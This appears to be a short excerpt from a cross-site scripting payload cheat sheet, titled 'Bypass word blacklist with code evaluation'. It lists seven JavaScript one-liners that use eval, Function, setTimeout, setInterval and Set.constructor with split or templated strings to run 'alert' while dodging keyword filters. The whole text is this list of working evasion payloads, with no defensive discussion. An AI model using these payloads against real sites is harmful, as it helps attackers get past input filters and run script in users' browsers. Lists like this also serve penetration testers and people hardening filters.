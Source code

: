# Bypass word blacklist with code evaluation

- `eval('ale'+'rt(0)');`
- `Function('ale'+'rt(1)')();`
- `new Function\`alert\`6\`\``;
- `setTimeout('ale'+'rt(2)');`
- `setInterval('ale'+'rt(10)');`
- `Set.constructor('ale'+'rt(13)')();`
- `Set.constructor\`alert(14)\`\`\``;